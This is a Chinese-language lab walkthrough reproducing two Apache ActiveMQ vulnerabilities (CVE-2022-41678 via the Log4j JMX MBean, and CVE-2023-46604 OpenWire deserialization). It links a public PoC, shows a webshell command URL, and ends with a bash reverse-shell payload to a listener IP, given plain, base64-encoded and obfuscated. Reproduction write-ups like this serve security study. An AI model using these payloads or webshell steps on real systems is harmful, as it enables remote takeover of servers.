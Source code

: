   
代码执行漏洞原理：  
  
使用org.apache.logging.log4j.core.jmx.LoggerContextAdminMBean的setConfigText操作可以更改Log4j的配置，进而将日志文件写入任意目录中。  
  
org.apache.logging.log4j.core.jmx.LoggerContextAdminMBean是由Log4j2提供的一个Mbean。  
  
  
搜索org.apache.logging.log4j.core.jmx 发现有使用相关组件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZduoSuibXhlia8fjvYbnnWtF9ZsYdUnjPlVdscHBG3PZh14grc6PYaBRw/640?wx_fmt=png&from=appmsg "")  
  
  
  
直接使用exp  
  
Exp下载地址  

```
https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2022-41678/poc.py
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZzGd88U9IOwaByJickWylWbhl8biabGrn89LWdqgyxvjsPpYFicnZu2UBA/640?wx_fmt=png&from=appmsg "")  
  
  
访问webshell地址，成功执行命令  
  
http://10.22.3.224:8161/admin/shell.jsp?cmd=id  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZSK3kxXLYJPH6MOH73Z3Ru7RIS89JwMpn88TiaaibTV5o2dAbniaev3pOg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞（CVE-2023-46604）  
  
OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。  
在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作OpenWire协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。  
  
  
漏洞影响范围：  
5.18.2版本及以前  
  
  
漏洞复现  
  
访问靶机链接  
  
直接未授权访问后台  
  
http://10.22.250.67:8161/admin/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5Z0kvQLriaBiaEckn6pFJH0rj7dyo7UmbBt991libajtUHfryXpCVgJm44Q/640?wx_fmt=png&from=appmsg "")  
  
  
版本为5.17.3在漏洞范围之内  
  
构造payload  

```
bash -i >& /dev/tcp/10.132.0.76/1234 0>&1


YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC43Ni8xMjM0IDA+JjE=


{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8gMTAuMTMyLjAuNzYvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
```
